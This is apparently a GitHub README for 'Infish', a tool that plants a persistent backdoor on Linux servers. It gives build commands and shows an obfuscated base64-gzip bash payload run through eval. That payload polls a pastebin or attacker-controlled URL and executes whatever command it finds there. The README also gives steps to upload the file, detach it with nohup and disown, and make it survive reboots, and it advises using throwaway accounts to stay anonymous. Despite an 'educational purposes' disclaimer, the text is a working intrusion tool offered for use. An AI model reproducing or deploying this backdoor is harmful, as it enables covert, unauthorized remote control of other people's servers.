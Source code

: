# Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access (command and control) on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url (or a website you control. Observe opsec though.)
- Using your pastebin dev api key, username, and password

However, you first need to clone this repository or copy the infis-builder file to your local machine. Make it executable by running  

```bash
$ chmod +x infish-builder
```

## Using a raw url

This is when you already have a webpage (observe opsec) or have already created a paste by hand. Get the **raw paste url** or the url or the page and run the following command

```bash
$ ./infish-builder url pastebin.com/raw/abc123
```
**or**

```bash
$ ./infish-builder url somesite.com/cmdpage
```
**You can also use this is you have a url you host on the internet**.

This will generate a file called **.infish** with contents that look like  

```bash
#!/usr/bin/env bash
eval"$(echo 'H4sIAAAAAAAAA3VQUUvDMBB+76+4hTJaoW06daClD1PRFxVBYQ/Dh9heXTBNRtpuY+J/N0ntZA89wiV33/cl+a7qZNFyJaEQZRDCN5jwbFrBBCIE4qcE3mE6BY1tp2X2D5aj4Iludcos+mKgEv9leUdgko9eRvxANOCn4YDWcAaRrkbxXu2M/HheNRisGZfWoZN1DWr2ibLNyZM6cCFYchlTCJZclmrXwPMbpDSmGZjG/CKDvU16e53SeUxDeMDiSyUzmlKzUrjnGiu1TxxK+ge0yMmGNS1+cBkXqk402yWLm9t0dt4zTK9mssz9oDBkiJpXiB4hWoB//Jw5ahE6Nq/sIA/G7Z/OuM2gXaN0sI3euCtRNHjs45YJGGSuW3HP7Y1A3MAVpXZQuzUXCK3uMINSOdyOzCuVRO8XMv8NvicCAAA=' | base64 -d | gunzip -c)";
```

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
$ ./infish-builder key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

$
```

A file called '.infish' is created. It will contain something like this   

```bash
#!/usr/bin/env bash
eval"$(echo 'H4sIAAAAAAAAA3VQUUvDMBB+76+4hTJaoW06daClD1PRFxVBYQ/Dh9heXTBNRtpuY+J/N0ntZA89wiV33/cl+a7qZNFyJaEQZRDCN5jwbFrBBCIE4qcE3mE6BY1tp2X2D5aj4Iludcos+mKgEv9leUdgko9eRvxANOCn4YDWcAaRrkbxXu2M/HheNRisGZfWoZN1DWr2ibLNyZM6cCFYchlTCJZclmrXwPMbpDSmGZjG/CKDvU16e53SeUxDeMDiSyUzmlKzUrjnGiu1TxxK+ge0yMmGNS1+cBkXqk402yWLm9t0dt4zTK9mssz9oDBkiJpXiB4hWoB//Jw5ahE6Nq/sIA/G7Z/OuM2gXaN0sI3euCtRNHjs45YJGGSuW3HP7Y1A3MAVpXZQuzUXCK3uMINSOdyOzCuVRO8XMv8NvicCAAA=' | base64 -d | gunzip -c)";
```

Finally, upload the **.infish** file to the target server and there, make it executable by running   

```bash
$ chmod +x .infish
```

Then to begin c&c, run  

```bash
$ nohup ./.infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)
